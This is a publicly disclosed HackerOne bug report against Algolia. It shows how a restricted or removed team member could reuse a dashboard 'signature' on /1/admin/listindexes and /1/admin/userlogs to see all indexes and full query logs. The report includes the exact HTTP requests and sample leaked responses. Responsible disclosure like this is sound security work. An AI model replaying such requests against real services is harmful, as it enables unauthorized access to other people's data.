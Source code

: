 # Unauthorized team members can leak information and see all API calls through /1/admin/* endpoints, even after they have been removed.

## Report Details
- **Report ID**: 156520
- **URL**: https://hackerone.com/reports/156520
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-04T15:26:03.980Z
- **Disclosed**: 2016-11-27T16:43:28.832Z

## Reporter
- **Username**: eboda
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: algolia

## Vulnerability Information
Summary
-------------

Invited team members or collaborators on https://www.algolia.com/manage/applications/[APP_ID]/team can use the `/1/admin/*` REST endpoints to leak some information, which they should not be able to have access to.

Steps to reproduce
--------------

1. Invite a new team member to your application and give him very restrictive rights. In my case I gave him  only `Search` rights and limited his access to an index called `test`.
2. Login as the new team member and go to https://www.aloglia.com/dashboard . You will be greeted with a `You don't have access to the Algolia Dashboard.` error message.
3. Check in the page source for `signature` and copy its value, for example on my application it was `fd283b81b38fb9c547fcf2bea763d547e66644839e896e877382b1fcfe598bac`.

    Using this signature, you can perform queries now against `/1/admin/*`, even though you don't have the rights.

/1/admin/listIndexes
---------------

The following request will list all indexes of the application including their statistics:

```
POST /1/admin/listindexes HTTP/1.1
Host: c5-eu-1.algolianet.com
....

{"applicationID":"APP_ID","signature":"SIGNATURE","page":0,"sortByNbEntries":1}
```

Of course you need to replace `applicationID` and `signature` with your own values from above.

/1/admin/userlogs
-----------------

An even more interesting endpoint. Here you can see all past queries made to the application. This includes search queries, records added and deleted, indeces created and removed, etc. for all indeces in the application. This basically leaks data from any index.

```
POST /1/admin/userlogs HTTP/1.1
Host: c5-eu-1.algolianet.com
....

{"applicationID":"APP_ID","signature":"SIGNATURE","offset":0,"length":1000,"type":"all"}
```

This will return the whole request body and the whole response body for each query! So for example if somebody performed a search, the attacker will be able to see the whole result of the search in the response body. 

Here are two example responses, one for searching and the other for adding a record:

**Searching** (as you can see `answer` contains the whole record)
```{js}
{
                "timestamp": "2016-08-04T15:15:01Z",
                "method": "POST",
                "answer_code": "200",
                "query_body": "\n{\n  \"params\": \"query=Monica&page=0&getRankingInfo=1&facets=*&attributesToRetrieve=*&highlightPreTag=%3Cem%3E&highlightPostTag=%3C%2Fem%3E&hitsPerPage=10&facetFilters=%5B%5D&maxValuesPerFacet=100\"\n}\n",
                "answer": "\n{\n  \"hits\": [\n    {\n      \"name\": \"Monica Bellucci\",\n      \"rating\": 3956,\n      \"image_path\": \"/z3sLuRKP7hQVrvSTsqdLjGSldwG.jpg\",\n      \"alternative_name\": \"Monica Anna Maria Bellucci\",\n      \"objectID\": \"5\",\n      \"_highlightResult\": {\n        \"name\": {\n          \"value\": \"<em>Monica</em> Bellucci\",\n          \"matchLevel\": \"full\",\n          \"fullyHighlighted\": false,\n          \"matchedWords\": [\n            \"monica\"\n          ]\n        },\n        \"alternative_name\": {\n          \"value\": \"<em>Monica</em> Anna Maria Bellucci\",\n          \"matchLevel\": \"full\",\n          \"fullyHighlighted\": false,\n          \"matchedWords\": [\n            \"monica\"\n          ]\n        }\n      },\n      \"_rankingInfo\": {\n        \"nbTypos\": 0,\n        \"firstMatchedWord\": 0,\n        \"proximityDistance\": 0,\n        \"userScore\": 499,\n        \"geoDistance\": 0,\n        \"geoPrecision\": 1,\n        \"nbExactWords\": 0,\n        \"words\": 1,\n        \"filters\": 0\n      }\n    }\n  ],\n  \"nbHits\": 1,\n  \"page\": 0,\n  \"nbPages\": 1,\n  \"hitsPerPage\": 10,\n  \"processingTimeMS\": 1,\n  \"facets\": {\n  },\n  \"exhaustiveFacetsCount\": true,\n  \"query\": \"Monica\",\n  \"params\": \"query=Monica&page=0&getRankingInfo=1&facets=*&attributesToRetrieve=*&highlightPreTag=%3Cem%3E&highlightPostTag=%3C%2Fem%3E&hitsPerPage=10&facetFilters=%5B%5D&maxValuesPerFacet=100\",\n  \"serverUsed\": \"c5-eu-3.algolia.net\",\n  \"parsedQuery\": \"monica\",\n  \"timeoutCounts\": false,\n  \"timeoutHits\": false\n}\n",
                "url": "/1/indexes/QQQQQQQQ/query?x-algolia-agent=Algolia%20for%20vanilla%20JavaScript%203.14.1&x-algolia-application-id=5QA3U6N0QN&x-algolia-api-key=3f30****************************",
                "ip": "....",
                "query_headers": "...",
                "sha1": "70a7baf41d4756ad3a01199f336d7c45b9624305",
                "nb_api_calls": "1",
                "processing_time_ms": "1",
                "index": "QQQQQQQQ",
                "query_params": "query=Monica&page=0&getRankingInfo=1&facets=*&attributesToRetrieve=*&highlightPreTag=%3Cem%3E&highlightPostTag=%3C%2Fem%3E&hitsPerPage=10&facetFilters=%5B%5D&maxValuesPerFacet=100",
                "query_nb_hits": "1"
            }
```
**Adding a record**
```{js}
 {
                "timestamp": "2016-08-04T15:14:56Z",
                "method": "POST",
                "answer_code": "201",
                "query_body": "\n{\n  \"name\": \"Just a test\",\n  \"rating\": 1337,\n  \"image_path\": \"Record added\",\n  \"alternative_name\": \"Everything leaked\",\n  \"objectID\": \"5111\"\n}\n",
                "answer": "\n{\n  \"createdAt\": \"2016-08-04T15:14:56.405Z\",\n  \"taskID\": 18077851,\n  \"objectID\": \"5111\"\n}\n",
                "url": "/1/indexes/QQQQQQQQ?x-algolia-agent=Algolia%20for%20vanilla%20JavaScript%203.14.1&x-algolia-application-id=****&x-algolia-api-key=3f30****************************",
                "ip": "xxxxx",
                "query_headers": "...",
                "sha1": "ee9f6ad7345be899f3a81b0b150bb75c9abc46e3",
                "nb_api_calls": "1",
                "processing_time_ms": "1",
                "index": "QQQQQQQQ"
            }
```

Clearly, the attacker can dump all indeces if he just goes back far enough where they were created.

The other two endpoints I found are `/1/admin/stats/INDEXNAME`, which returns the same as `/1/admin/listIndexes`, but only for one specific index and `/1/admin/building`, which purpose I didn't quite figure out.

Final note
-----------

Note that the signature is application specific and completely API key independent.

For one that means, if I use the users API key to list indexes via `/1/indexes` endpoint, it will only return an answer if I ahve given the user `listIndexes` rights and it will only return those indeces he has access to. Whereas with the signature the users rights are completely ignored.

It also means though, that if I remove an old team member he still continues to have access to the above endpoints. Even if the admin regenrates the admin API key, the signature remains the same. Therefore, once a team member obtained the signature, he will have access indefinitely to the application. The owner can't do anything as far as I can tell.

## Attachments
No attachments
